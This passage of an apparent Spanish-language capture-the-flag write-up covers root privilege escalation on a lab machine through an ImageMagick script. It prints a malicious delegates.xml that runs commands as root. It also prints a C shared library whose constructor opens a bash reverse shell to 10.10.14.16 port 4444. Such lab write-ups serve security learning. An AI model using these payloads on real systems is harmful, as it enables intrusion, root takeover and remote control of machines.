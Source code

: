 Habiendo entendido cómo podríamos explotar esta vulnerabilidad, podemos seguir dos métodos para ejecutar comandos


## Proof of Concept - `delegates.xml` File

El primer método consiste en crear un archivo `delegates.xml` en el directorio donde busca el script `identify_images.sh`

~~~ bash
developer@titanic:/opt/app/static/assets/images$ cat << EOF > ./delegates.xml
<delegatemap><delegate xmlns="" decode="XML" command="id"/></delegatemap>
EOF
~~~

Esto ejecutará el comando `id`, y como el script guarda los metadatos de las imágenes que enviamos en el archivo `metadata.log`, deberíamos ver la salida del comando ejecutado allí. Por alguna razón solo funciona cuando el archivo vuelve a crearse, por lo que lo eliminaremos

~~~ bash
developer@titanic:/opt/app/static/assets/images$ touch 'delegates.xml .jpg'
developer@titanic:/opt/app/static/assets/images$ rm metadata.log
~~~

> Hemos creado un archivo `delegates.xml .jpg`, para que se ejecute necesita tener con espacios la extensión `.jpg`.
{: .notice--warning}

Cuando eliminemos el archivo `.log`, esperaremos unos segundos y se creará nuevamente, con la salida del comando `id` en la primer línea

~~~ bash
developer@titanic:/opt/app/static/assets/images$ cat metadata.log 
uid=0(root) gid=0(root) groups=0(root)
/opt/app/static/assets/images/luxury-cabins.jpg JPEG 1024x1024 1024x1024+0+0 8-bit sRGB 280817B 0.000u 0:00.003
/opt/app/static/assets/images/entertainment.jpg JPEG 1024x1024 1024x1024+0+0 8-bit sRGB 291864B 0.000u 0:00.000
/opt/app/static/assets/images/home.jpg JPEG 1024x1024 1024x1024+0+0 8-bit sRGB 232842B 0.000u 0:00.000
/opt/app/static/assets/images/exquisite-dining.jpg JPEG 1024x1024 1024x1024+0+0 8-bit sRGB 280854B 0.000u 0:00.000
~~~


## Exploiting via Shared Library - `libxcb.so.1`

Para el segundo método, compilaremos una biblioteca compartida maliciosa que ejecute un comando en el sistema. En este caso enviaremos una reverse shell a nuestro equipo por un puerto

~~~ bash
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF  
#include <stdio.h>  
#include <stdlib.h>  
#include <unistd.h>  
__attribute__((constructor)) void init(){  
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.16/4444 0>&1'");  
    exit(0);  
}  
EOF
~~~
